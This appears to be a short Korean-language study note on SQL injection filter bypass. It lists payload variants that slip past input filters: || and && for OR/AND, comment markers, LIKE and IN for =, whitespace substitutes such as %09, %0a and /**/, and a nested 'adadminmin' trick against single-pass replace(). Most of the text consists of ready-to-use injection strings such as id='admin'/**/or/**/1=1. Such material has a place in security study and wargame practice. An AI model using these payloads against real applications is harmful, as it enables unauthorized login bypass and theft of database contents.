 # SQL injection

### 필터링 우회

OR/AND     
->  ||/&&   
ex) select * from table where id='admin' or 1=1   
->  select * from table where id='admin' || 1=1   
ex) select * from table where id='admin' and pw='password'   
->  select * from table where id='admin' && pw='password'   

주석   
->  -- #   
-- 주석 뒤에 공백문자가 있어야 된다.  

=   
->  like in   
ex) select * from table where id='admin'  
->  select * from table where id like 'admin'   
->  select * from table where id in('admin')   

공백문자   
* tab : %09
* line feed(\n) : %0a
* carrage return(\r) : %0d
* 주석 : /**/
* 괄호 : ()
* 더하기 : +   
ex) id='admin' or 1=1   
->  id='admin'%09or%091=1   
->  id='admin'%0aor%0a1=1   
->  id='admin'%0dor%0d1=1   
->  id='admin'/**/or/**/1=1   
->  id=(admin)or(1=1)   
->  id="admin"+or+1=1   

replace   
replace("admin","",$in) 일 때   
ad~~admin~~min으로 우회 가능   

